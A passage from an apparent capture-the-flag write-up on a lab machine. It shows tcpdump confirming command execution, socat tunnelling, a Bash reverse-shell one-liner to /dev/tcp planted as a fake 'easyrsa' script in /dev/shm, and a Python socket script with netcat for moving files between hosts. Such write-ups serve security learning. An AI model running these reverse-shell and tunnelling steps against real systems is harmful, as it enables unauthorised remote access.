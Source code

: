 
Now I’ll start `tcpdump` and run the script:

    
    
    oxdf@parrot$ sudo tcpdump -i lo icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    11:30:46.818608 IP localhost > localhost: ICMP echo request, id 13015, seq 1, length 64
    11:30:46.818616 IP localhost > localhost: ICMP echo reply, id 13015, seq 1, length 64
    11:30:47.867404 IP localhost > localhost: ICMP echo request, id 13015, seq 2, length 64
    11:30:47.867417 IP localhost > localhost: ICMP echo reply, id 13015, seq 2, length 64
    

That’s command execution.

#### Remote Exploitation

To make this work remotely, I’ll need to interact with the binary. PwnTools
isn’t on the container, so I’ll create tunnels so that my host can interact
with the binary. I’ll use `socat`to both tunne from web to pki, and to host
`ersatool` on pki:

![image-20211217115726485](https://0xdfimages.gitlab.io/img/image-20211217115726485.png)

On pki, I’ll drop a simple Bash script into `/dev/shm` to create a reverse
shell back to web:

    
    
    www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
    www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1' > easyrsa
    www-data@pki:/dev/shm$ chmod +x easyrsa 
    

I’ll upload `socat` to web (using Python webserver). I need a good way to get
it to pki. I wrote a short Python script:

    
    
    #!/usr/bin/env python3
    
    import socket
    
    s = socket.socket()
    s.connect(('192.168.254.2', 4433))
    with open('/tmp/socat', 'wb') as f:
        data = s.recv(1024)
        while data:
            f.write(data)
            data = s.recv(1024)
    s.close()
    

On web I ran `/tmp/nc -lnvp 4433 < socat`. Then I ran that script, and it go
`socat` (and the MD5s matched).
